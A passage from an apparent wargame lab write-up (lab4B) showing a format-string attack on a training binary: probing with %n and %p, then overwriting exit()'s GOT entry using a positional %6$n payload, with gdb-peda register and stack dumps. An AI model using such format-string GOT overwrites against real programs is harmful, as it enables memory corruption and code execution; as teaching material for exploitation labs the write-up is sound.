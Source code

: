 ```shell
$ ./lab4B
AAAA%n
Segmentation fault (core dumped)
```

Okay, so the program just *segfault*. Let's check **where** we tried to write **4** with the *%p* specifier:

```shell
$ ./lab4B
AAAA%p
aaaa0x64
```

As you can see, *0x64* is not a valid address, that's why it can't write here.

So, instead of using a simple *%n*, we can use `%<num>$n` to specify the address to write to. What would happen if `%<num>$n` points to the beginning of our string? Well, it will use the address specified in the beginning of our strings to write data to. It means that instead of using **AAAA**, we'll use a valid address, in this case it will be the address of *exit()*.

Let's try to overwrite the *exit()* address. In the following dump, I'll put a breakpoint right before the *exit()* call, then I'll send the payload.

```nasm
$ gdb ./lab4B
Reading symbols from ./lab4B...(no debugging symbols found)...done.
gdb-peda$ break *main+156 ; Break before exit()
Breakpoint 1 at 0x8048729
gdb-peda$ x/x 0x080499b8 ; Original exit() address
0x80499b8 <exit@got.plt>:  0x08048566
gdb-peda$ r < <(python -c 'print("\xb8\x99\x04\x08" + "%6$n")')
Starting program: /levels/lab04/lab4B < <(python -c 'print("\xb8\x99\x04\x08" + "%6$n")')
��
[----------------------------------registers-----------------------------------]
EAX: 0x5
EBX: 0x9 ('\t')
ECX: 0x0
EDX: 0xb7fce898 --> 0x0
ESI: 0x0
EDI: 0x0
EBP: 0xbffff6c8 --> 0x0
ESP: 0xbffff640 --> 0xbffff658 --> 0x80499b8 --> 0x4
EIP: 0x8048729 (<main+156>:   mov    DWORD PTR [esp],0x0)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x804871d <main+144>:   lea    eax,[esp+0x18]
   0x8048721 <main+148>:   mov    DWORD PTR [esp],eax
   0x8048724 <main+151>:   call   0x8048530 <printf@plt>
=> 0x8048729 <main+156>:   mov    DWORD PTR [esp],0x0
   0x8048730 <main+163>:   call   0x8048560 <exit@plt>
   0x8048735:  xchg   ax,ax
   0x8048737:  xchg   ax,ax
   0x8048739:  xchg   ax,ax
[------------------------------------stack-------------------------------------]
0000| 0xbffff640 --> 0xbffff658 --> 0x80499b8 --> 0x4
0004| 0xbffff644 --> 0x64 ('d')
0008| 0xbffff648 --> 0xb7fcdc20 --> 0xfbad2088
0012| 0xbffff64c --> 0x0
0016| 0xbffff650 --> 0xbffff704 --> 0x27f77235
0020| 0xbffff654 --> 0xbffff678 --> 0xb7e2fbf8 --> 0x2aa0
0024| 0xbffff658 --> 0x80499b8 --> 0x4
0028| 0xbffff65c ("%6$n\n")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

```